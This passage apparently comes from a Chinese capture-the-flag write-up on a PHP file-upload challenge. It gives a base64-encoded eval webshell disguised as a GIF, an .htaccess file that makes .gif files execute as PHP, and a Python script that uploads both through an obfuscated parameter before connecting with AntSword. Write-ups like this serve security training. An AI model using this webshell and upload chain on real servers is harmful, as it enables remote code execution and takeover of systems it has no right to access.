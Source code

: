 接下来我们制作图片马，由于图片马文件内容中不能有 `&lt;?`，所以我们要用编码绕过：

```
GIF98a12PD9waHAgZXZhbCgkX1BPU1RbJ3dob2FtaSddKTs/Pg==
```

所以我们 .htaccess 文件的内容为：

```
#define width 1337
#define height 1337
AddType application/x-httpd-php .gif
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_d99081fe929b750e0557f85e6499103f/shell.gif"
```

最后，我们编写脚本，一键化上传图片马和.htaccess：

```
import requests

url = "http://2eebfa72-c0ca-4331-a85a-dd3878052073.node3.buuoj.cn/?_=$`{`%ff%ff%ff%ff^%a0%b8%ba%ab`}``{`%ff`}`();&amp;%ff=get_the_flag"
shell = `{`"file":('images.gif',open('images.gif','rb'),'image/gif')`}`
r = requests.post(url=url,files=shell)
print(r.text)

htaccess = `{`"file":('.htaccess',open('.htaccess','rb'),'image/gif')`}`
r2 = requests.post(url=url,files=htaccess)
print(r2.text)
```

[![](https://p3.ssl.qhimg.com/t013741520801d36963.png)](https://p3.ssl.qhimg.com/t013741520801d36963.png)

成功上传后使用蚁剑成功连接images.gif：

[![](https://p3.ssl.qhimg.com/t01c9a8aded501d658a.png)](https://p3.ssl.qhimg.com/t01c9a8aded501d658a.png)

> 参考：<br>[https://xz.aliyun.com/t/8267](https://xz.aliyun.com/t/8267)<br>[https://www.jianshu.com/p/02a915d77654](https://www.jianshu.com/p/02a915d77654)<br>[https://www.cnblogs.com/anbuxuan/p/11867129.html](https://www.cnblogs.com/anbuxuan/p/11867129.html)
